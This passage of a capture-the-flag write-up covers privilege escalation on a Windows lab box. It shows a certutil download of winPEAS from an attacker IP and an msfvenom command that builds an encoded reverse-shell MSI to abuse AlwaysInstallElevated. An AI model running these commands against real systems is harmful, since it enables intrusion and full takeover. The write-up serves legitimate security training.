 ```
C:\Users\CyberLens\Desktop>certutil -urlcache -f http://10.8.162.183:80/winPEASx86.exe C:\Users\CyberLens\Desktop\winPEASx86.exe
certutil -urlcache -f http://10.8.162.183:80/winPEASx86.exe C:\Users\CyberLens\Desktop\winPEASx86.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.

C:\Users\CyberLens\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362

 Directory of C:\Users\CyberLens\Desktop

07/12/2025  11:11 AM    <DIR>          .
07/12/2025  11:11 AM    <DIR>          ..
06/21/2016  03:36 PM               527 EC2 Feedback.website
06/21/2016  03:36 PM               554 EC2 Microsoft Windows Guide.website
06/06/2023  07:54 PM                25 user.txt
07/12/2025  11:11 AM        10,156,032 winPEASx86.exe
               4 File(s)     10,157,138 bytes
               2 Dir(s)  14,916,714,496 bytes free

```

And we can run it with `winPEASx86.exe` .

We find AlwaysInstalledElevated enabled :

<img src="../../2%20-%20Resources/Others/Flameshots/a92575f19d8abfd5964a8256ee4de576.png" alt="a92575f19d8abfd5964a8256ee4de576.png" width="673" height="69" class="jop-noMdConv">

We search it on Internet and find we can install **MSI** files with elevated permissions and exploit the machine with a [Reverse Shell](../../3%20-%20Tags/Hacking%20Concepts/Reverse%20Shell.md) l :

### MsfVenom (TCP RevShell)

We copy our [Payload](../../3%20-%20Tags/Hacking%20Concepts/Payload.md) :

```
┌──(mdn0x㉿mdn0xKali)-[~/…/CHALLENGES/Easy/Cybelens/web-server]
└─$ msfvenom --platform windows --arch x64 --payload windows/x64/shell_reverse_tcp LHOST=10.8.162.183 LPORT=4444 --encoder x64/xor --iterations 9 --format msi --out AlwaysInstallElevated.msi
Found 1 compatible encoders
Attempting to encode payload with 9 iterations of x64/xor
x64/xor succeeded with size 503 (iteration=0)
x64/xor succeeded with size 543 (iteration=1)
x64/xor succeeded with size 583 (iteration=2)
x64/xor succeeded with size 623 (iteration=3)
x64/xor succeeded with size 663 (iteration=4)
x64/xor succeeded with size 703 (iteration=5)
x64/xor succeeded with size 743 (iteration=6)
x64/xor succeeded with size 783 (iteration=7)
x64/xor succeeded with size 823 (iteration=8)
x64/xor chosen with final size 823
Payload size: 823 bytes
Final size of msi file: 159744 bytes
Saved as: AlwaysInstallElevated.msi

```
